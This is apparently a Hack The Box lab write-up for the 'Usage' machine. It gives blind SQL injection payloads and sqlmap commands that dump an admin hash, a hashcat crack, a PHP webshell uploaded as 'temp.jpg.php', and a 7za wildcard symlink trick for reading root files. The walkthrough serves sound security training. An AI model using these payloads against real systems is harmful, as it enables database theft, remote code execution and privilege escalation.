


## Reconnaissance

### nmap 


### Web Service 

> Access the target page 
> Login page


> Register Page 


> Admin page will access to admin.usage.htb
> Add it to /etc/hosts 
> Check admin page, it's another login page 


> Try to register an account 
> And use it to login 


> I can login and access to /dashboard
> But enumeration this page, it's a static page without any useful information


> Forgot Password


## Exploit 

> With above enumeration, I also tried to inject special character to all the column
> And found potential sql injection on "Reset Password"

1. I tried basic payload first 
```
123@123.com' or 1=1 -- -
```


> The result show the reset mail has been sent. 
> So I can confirm the query string accept by DB server 

2. Try the payload which query string is negative

```
123@123.com' or 1=2 -- -
```


> It still success to send the mail link

3. Try to use an non-exist mail with payload

```
23@123.com' or 1=2 -- -
```


> Show the 

4. Try to use order by strings to confirm the column number

> After trying from 1.
> I can confirm the total column is 8

```
123@123.com' ORDER BY 8-- -
```


> When I add to 9, it will show 500 server error 

```
123@123.com' ORDER BY 9-- -
```


> In here, I also continue to use UNION SELECT to check. 

```
123@123.com' UNION SELECT 1,2,3,4,5,6,7,8-- -
```


> And same as ORDER By strings, if I add to 9, it will response 500 server error

```
123@123.com' UNION SELECT 1,2,3,4,5,6,7,8,9-- -
```


> But this function won't display any sql result. 
> Hence I think it's not UNION Based SQL injection 
> Then I start to aim on Boolean based or Error Based.
> First I need to confirm the DB name's length 
> With above testing, I know there are 3 situations

1. Sql payload success and the email exist --> reset line sent
2. Sql payload query failed but not error or email doesn't exist --> Emil address does not match in our records
3. Sql payload error --> 500 server error 

```
123@123.com' and(select length(database())>20)-- -
```


```
123@123.com' and(select length(database())>10)-- -
```


```
123@123.com' and(select length(database())>5)-- -
```


```
123@123.com' and(select length(database())>9)-- -
```


```
123@123.com' and(select length(database())=10)-- -
```


> Confirm the DB name length is 10
> So I need to find the name one by one
> Here is  payload I used 
> I need to use ascii() to make the char convert to ascii number to compare which char is correct
> And I only can check 1 char at same time, hence I need to use substring() to limit the position
> Besides that, I also limit the char into lower case by (LOWER())


```
123@123.com' and (ascii(LOWER(substring((select database()),1,1)))=97)-- -
```


> Intercept the request with burp and check it by intruder


> Observing the request and response, it will first get **302 redirect** then **200 OK** 


> Hence I need to make the following modification in intruder settings 


> If the query strings failed, it can't match the char, it will show email doesn't match. 
> So, maybe I can use this string, or total size to distinguished which is correct in intruder


> Success payload 

```
123@123.com' and(asciiLOWER(substring((select database()),1,1)))=117)-- -
```


> with first char success, I also found the success attempt will show the following strings in div tag
> I also can use strings "success" as filter. it will more precise

```
alert alert-success
```


> but I also know that is too slow.
> Hence I tried to use sqlmap.
> I need to copy the request from burp 
> Note: the request should not include any malicious payload, it should look like a normal request 

> After multiple different command option  testing in sqlmap 
> I find the following command works
> the important things is I need to set risk/level to 4, and sqlmap will keep testing blind or error based more deep

```
sqlmap -r sql.req -p email --dbms=mysql --ignore-code=500 --technique=BE --current-db usage_blog -a --level 4 --batch
```


> With above attack, I can get the information as follow

1. user: staff
2. Mysql version: 8.0
3. OS: Ubuntu 22.04.1
4. DB name: usage_blog

> To speed up the attack, I will specify DB, Table and column name when I know those information 
> So I tried the following payload step by step

- Retrieve DB name, I use

```
sqlmap -r sql.req -p email --dbms=mysql --technique=BE --dbs --ignore-code=500,419 --level 4 --batch
```


- Retrieve Table name 

```
sqlmap -r sql.req -p email --dbms=mysql --ignore-code=500 --technique=BE -D usage_blog --current-user staff --level 4 --tables --threads 2 --batch
```


- Retrieve Column name 

```
sqlmap -r sql.req -p email --dbms=mysql --ignore-code=500 --technique=BE -D usage_blog -T admin_users --current-user staff --level 4 --columns --threads 4 --batch
```


- Check Table Content - admin_user

```
sqlmap -r sql.req -p email --dbms=mysql --ignore-code=500 --technique=BE -D usage_blog -T admin_users --current-user staff --level 4 --dump --threads 4 --batch
```


> Find Administrator credential hash

```
Administrator / Admin / $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2
```

> Hashcat to crack it 

```
hashcat -m 3200 admin.hash /usr/share/wordlists/rockyou.txt
```


```
admin / whatever1
```


### Login to web service 

> Using the credential to login to admin page 
> It's a dashboard for blog management page


> Enumerating this page, the first suspicious point it the upload function in /settings


> Then I tried to upload other image
> And using the following payload 

```
<?php

system('whoami)

?>
```
> Modify the file extension 

```
temp.jpg.php
```


> Access this fake image file 
> It will execute the command in system function 
> I can know the current user


> Change the payload to reverse shell one


> Check nc listener


> Get user flag


## Privilege Escalation 

> Check /etc/passwd
> Find another active user - xander 


> Check current user 


> Check network status 


> Linpeas result
> Find DB password from environment 
> But I also tried to enumerate the data in DB again, I can't find further useful informations


> With network status, I know there is an uncommon port running - 2812


>  Find another credential in dash's directory 
>  Check .monitrc 

```
3nc0d3d_pa$$w0rd
```


> I used this password to change user to the other

```
xander / 3nc0d3d_pa$$w0rd
```


> Check sudo permission 
> This user allow to execute usage_management with root permission


> I tried to execute this command 
> It provide 3 different function
> 2 of them is backup (project and mysql)
> 1  will reset admin password



> Option 1: backup project 
> It used 7zip to archive project directory in /var/www/html to backup the project to /var/backups 


> Option 2: Backup mysql 
> With sudo permission, it will backup to same directory as project backup directory
> but it won't show any message



> Option3 : Reset admin password 


> Using command 'strings' to check usage_management
> I confirm it use 7za to archive project and the command is interesting 

```
/usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- *
```


> The vulnerability does not happen on 7za
> The problem is on the last of command - the wildcard ('\*')
> Check the following article.

- [Wildcards Spare tricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks)


> The explain for this problem in here

```
In **7z** even using `--` before `*` (note that `--` means that the following input cannot treated as parameters, so just file paths in this case) you can cause an arbitrary error to read a file, so if a command like the following one is being executed by root:

7za a /backup/$filename.zip -t7z -snl -p$pass -- *

And you can create files in the folder were this is being executed, you could create the file `@root.txt` and the file `root.txt` being a **symlink** to the file you want to read
Then, when **7z** is execute, it will treat `root.txt` as a file containing the list of files it should compress (thats what the existence of `@root.txt` indicates) and when it 7z read `root.txt` it will read `/file/you/want/to/read` and **as the content of this file isn't a list of files, it will throw and error** showing the content.
```

> Hence I can read root file by the following step

1. Create a file name '@root.txt'


2. Create a link file name root.txt which link to /root/root.txt


3. Execute usage_management with sudo permission, and choose option 1 to trigger 7z. 


> Root flag get in warning / error message 


### Root Shell 

> In this challenge, the lab also is designed that the attacker can get root shell.
> Using same process to read the ssh private key in root directory 
> Then I can use this key to login as root


## Reference 

- [Discussion](https://forum.hackthebox.com/t/official-usage-discussion/311044/58)

### SQL injection 

- [(BurpSuite)Blind SQL injection](https://portswigger.net/web-security/sql-injection/blind)
- [Blind SQL Injection — MySQL Data Base](https://lakshmi993.medium.com/blind-sql-injection-mysql-data-base-d2f35afbc451)
- [SQLmap usage](https://nanshihui.github.io/2016/02/25/sqlmaptips/)
- [(HackTricks)sqlmap cheatsheet](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap)
- [(GITHUB)MySQL Error based SQL Injection Cheatsheet](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/blob/main/Error%20Based%20SQLi/README.md)
- [sqlmap忽略500报错，继续注入](https://blog.csdn.net/weixin_44400900/article/details/126496603)
- [Exploiting Boolean Based SQL Vulnerability](https://medium.com/@BhaktiKhedkar/exploiting-boolean-based-sql-vulnerability-42d387434a6d)
- [Visible error-based SQL injection](https://medium.com/@KINGS-SOLUTION/visible-error-based-sql-injection-fa4f7a1ba070)
- [MySQL function Usage - Length](https://blog.csdn.net/u011439289/article/details/51519325)
- [MySQL function Usage - Substr](https://www.1keydata.com/tw/sql/sql-substring.html)
- [MySQL function Usage - Lower](https://www.w3schools.com/sql/func_mysql_lower.asp)
- [(GITHUB)sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list)
- [SQL注入个人理解及思路（包括payload和绕过的一些方式）](https://www.cnblogs.com/hackmang/p/12374694.html)
- [ASCII Chart](https://www.commfront.com/pages/ascii-chart)

### File Upload Vulnerability 

- [(HackTricks)File Upload Vulnerability](https://book.hacktricks.xyz/pentesting-web/file-upload)

### Privilege Escalation 

- [Wildcards Spare tricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks)
- [Exploiting Wildcard for Privilege Escalation](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)
- [Upgrading Simple Shells to Fully Interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)
- [(HackTricks)Linux PE](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)

###### tags: `HackTheBox`